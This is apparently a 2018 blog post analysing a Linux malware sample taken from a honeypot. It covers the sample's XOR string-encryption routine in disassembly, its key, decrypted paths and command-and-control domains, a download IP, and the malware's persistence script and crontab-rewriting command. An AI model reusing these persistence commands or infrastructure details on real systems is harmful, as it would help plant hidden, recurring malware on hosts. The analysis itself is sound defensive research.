 ```yaml
---
layout: post
title: "3945ac76b591cdbd50515b9f65821a64"
date: 2018-09-21
categories:
    - blog
tags:
    - malware research
    - reverse engineering
    - honeypot
keywords: "re, malware, honeypot"
---
```


Upon decompiling, there is a subroutine called as `encrypt_code`. This subroutine is using XOR to "encrypt" the string with the predefined key. The string can be "decrypt" using a simple Python script found here (https://gist.github.com/moonbingbing/3432989).

key = BB2FA36AAA9541F0

```
0x8049090 <encrypt_code+0>:    push    ebp {__saved_ebp}
0x8049091 <encrypt_code+1>:    mov     ebp, esp {__saved_ebp}
0x8049093 <encrypt_code+3>:    push    esi {__saved_esi}
0x8049094 <encrypt_code+4>:    mov     esi, dword [ebp+0xc {arg2}]
0x8049097 <encrypt_code+7>:    push    ebx {__saved_ebx}
0x8049098 <encrypt_code+8>:    mov     ebx, dword [ebp+0x8 {arg1}]
0x804909b <encrypt_code+11>:    test    esi, esi
0x804909d <encrypt_code+13>:    jle     0x80490c2
0x804909f <encrypt_code+15>:    xor     ecx, ecx  {0x0}
0x80490a1 <encrypt_code+17>:    mov     eax, ecx
0x80490a3 <encrypt_code+19>:    sar     eax, 0x1f
0x80490a6 <encrypt_code+22>:    shr     eax, 0x1c
0x80490a9 <encrypt_code+25>:    lea     edx, [ecx+eax]
0x80490ac <encrypt_code+28>:    and     edx, 0xf
0x80490af <encrypt_code+31>:    sub     edx, eax
0x80490b1 <encrypt_code+33>:    movzx   eax, byte [edx+xorkeys]
0x80490b8 <encrypt_code+40>:    xor     byte [ecx+ebx], al
0x80490bb <encrypt_code+43>:    add     ecx, 0x1
0x80490be <encrypt_code+46>:    cmp     ecx, esi
0x80490c0 <encrypt_code+48>:    jne     0x80490a1
0x80490c2 <encrypt_code+50>:    mov     eax, ebx
0x80490c4 <encrypt_code+52>:    pop     ebx {__saved_ebx}
0x80490c5 <encrypt_code+53>:    pop     esi {__saved_esi}
0x80490c6 <encrypt_code+54>:    pop     ebp {__saved_ebp}
0x80490c7 <encrypt_code+55>:    retn
```

Some of the encrypted strings:

```
1. m4S4nAC/n&ZV - /var/run/gcc
2. m4S4nAC/nA - /var/run/
3. m6_6n3 - /tmp/
4. m [(n3 - /bin/
5. m7A4nQ_/nA - /usr/bin/
6. m.[$n__#4%\\C - /lib/libudev
7. &,Ak&\\Y&-$\x17ZFV|\x06rr\x02v=R\x1b%/2\x14R[^!\\\'lQ),\t - dns-google.org:60000|a-dns-google.com:
```

Further execution shows that a Bash script will be downloaded from `103.25.9.228` using a HTTP GET request. Last checked on 21/9/08, the IP address is no longer responding to any connection. However, some of the malware post-installation can still be found within the binary itself.

The post-installation consists of a Bash script named `/etc/cron.hourly/gcc4.sh` which contains the following lines.

```
#!/bin/sh
PATH=/bin:/sbin:/usr/bin:/usr/sbin:/usr/local/bin:/usr/local/sbin:/usr/X11R6/bin
cp /lib/libudev4.so /lib/libudev4.so.6
/lib/libudev4.so.6
```

```
sed -i \'/\\/etc\\/cron.hourly\\/gcc4.sh/d\' /etc/crontab && echo \'*/3 * * * * root /etc/cron.hourly/gcc4.sh\' > /etc/crontab
```
